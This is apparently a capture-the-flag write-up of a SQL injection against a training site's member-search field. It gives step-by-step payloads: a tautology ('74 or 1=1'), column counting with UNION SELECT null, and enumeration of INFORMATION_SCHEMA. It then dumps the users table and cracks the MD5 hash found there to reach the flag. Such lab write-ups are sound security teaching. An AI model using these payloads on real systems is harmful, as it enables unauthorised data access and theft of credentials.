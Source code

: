 ### Title: <span style="color:blue">SQL Injection Vulnerability in Members Input Field</span>

SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. This can allow an attacker to view data that they are not normally able to retrieve. This might include data that belongs to other users, or any other data that the application can access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.

**Location:** `page=member`

**Step 0:** 

write any string in the input field; this SQL error will be thrown.
```sql
Unknown column 'test' in 'where clause'

```
**Step 1:** try to write any basic SQL SELECT Statement in members input field as it is vulnerable to SQL injection

**Result:**

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'select \*' at line 1
```

**Step 2 :**
we write to the search field `74 or 1=1` or `74 or 1=1--` we can replace 74 by any other random id.
the input have a label:` SEARCH MEMBER BY ID` so the original query may be something similar to :

```sql
SELECT <column_name1>, <column_name2> FROM <table_name> WHERE ID = "id_number"

```

the injected query `74 or 1=1-- ` is typically combined with the original query by the application's backend code before being sent to the database for execution. so the resulted query is something like

```sql
 SELECT <column_name1>, <column_name2> FROM <table_name> WHERE ID = 74 or 1=1
```

In this case, the injected part '74 OR 1=1--' causes the query to return all rows from the users table because '1=1' is always true. If 'id=74' is not found, all the rows will be returned as 'OR 1=1' allows this to happen. The '--' at the end is used to comment out the rest of the original query to avoid syntax errors (it's not necessary to use the hyphens).
**Result:**

```sql
 result
 ID: 74 or 1=1
 First name: one
 Surname : me
```

> [!NOTE]
> the result show that the original select statement, query over two columns and this is a very important information to use in the sql query injection.

**Step 3 :**

In SQL injection attacks, knowing the number of columns in a SQL query can be important for constructing a SQL statement that doesn't break the syntax or structure of the original query. Additionally, if we want to use the UNION clause to combine other queries into the original, this condition should be fulfilled: Every SELECT statement within UNION must have the same number of columns.
We can use the `union-based` SQL injection technique to select more and more null values until the query is correct.
The UNION operator is used to combine the result sets of two or more SELECT statements.

```sql

SELECT _column_name(s)_ FROM _table1_ UNION SELECT _column_name(s)_ FROM _table2_;
Every SELECT statement within UNION must have the same number of columns.
The columns must also have similar data types.
The columns in every SELECT statement must also be in the same order. Syntax example:

```

```sql

74 or 1=1 UNION SELECT null; -- The used SELECT statements have a different number of columns.
74 or 1=1 UNION SELECT null,null; -- This works.
74 or 1=1 UNION SELECT null,null,null; -- The used SELECT statements have a different number of columns.
```

**Step 3 :** use the information_schema database

`INFORMATION_SCHEMA` is a database within each MySQL instance, the place that stores information about all the other databases, contains several read-only tables, and not perform INSERT, UPDATE, or DELETE operations on them.
You can use queries against the information_schema database to retrieve information about the database server, such as:

- Listing databases and their properties (SCHEMATA table).
- Listing tables in a database (TABLES table).
- Listing columns in a table (COLUMNS table).
- Listing indexes in a table (STATISTICS table).
- Listing privileges that users have (SCHEMA_PRIVILEGES, TABLE_PRIVILEGES, COLUMN_PRIVILEGES tables).

```sql
74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables

```

```sql
ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables
First name: db_default
Surname : BASE TABLE

ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables
First name: users
Surname : BASE TABLE

ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables
First name: guestbook
Surname : BASE TABLE¦

ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables
First name: list_images
Surname : BASE TABLE

ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables
First name: vote_dbs
Surname : BASE TABLE

```
Here's a breakdown of what's happening:
* The original query appears to be something like SELECT * FROM table WHERE ID = 74.
* The injection starts with 74 or 1=1 which is always true (1=1), effectively bypassing any ID-based filtering in the original query.
* Then, we perform a UNION with another SELECT statement that retrieves TABLE_NAME and TABLE_TYPE columns from the INFORMATION_SCHEMA.tables.
* The retrieved table names `db_default`, `users`,` guestbook`, `list_images`,` vote_dbs`
the value BASE TABLE in the TABLE_TYPE column indicates that the table is a regular, user-created table, not a view or a system table

```sql
 74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS
```

```sql 
ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS 
First name: users
Surname : user_id

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS 
First name: users
Surname : first_name

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS 
First name: users
Surname : last_name

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS 
First name: users
Surname : town

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS 
First name: users
Surname : country

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS 
First name: users
Surname : planet

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS 
First name: users
Surname : Commentaire

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS 
First name: users
Surname : countersign
....

```
we tried :
```sql 
74 or 1=1 union select user_id, first_name  from users
74 or 1=1 union select last_name, town from users
74 or 1=1 union select country, planet from users
74 or 1=1 union select Commentaire, countersign from users

```
After testing these series of SQL injection attempts, we observed that the flag appeared in the final query. In the query 
```sql 
74 or 1=1 union select Commentaire, countersign from users
```
the result shows : 

```sql
ID: 74 or 1=1 union select Commentaire, countersign from users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28

```
The instruction indicates that to verify this password, one should decrypt it, convert all characters to lowercase, and then apply the SHA256 hashing algorithm.
the provided hash "5ff9d0165b4f92b14994e5c685cdce28" appears to be a 128-bit hexadecimal representation, which is often indicative of an MD5 hash.
using : https://www.dcode.fr/identification-chiffrement to execute the instructions 

decrypt MD5(5ff9d0165b4f92b14994e5c685cdce28) : FortyTwo
lowercase the dycrepted value: fortytwo
sh256 of fortytwo value: 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

the flag is : 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5




**Resources:**

information_shema: 

* https://dev.mysql.com/doc/mysql-infoschema-excerpt/8.3/en/information-schema-introduction.html

MySQL Injection: 

* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md
* https://book.hacktricks.xyz/pentesting-web/sql-injection/mysql-injection
* https://portswigger.net/web-security/sql-injection

dCode: 

* https://www.dcode.fr/identification-chiffrement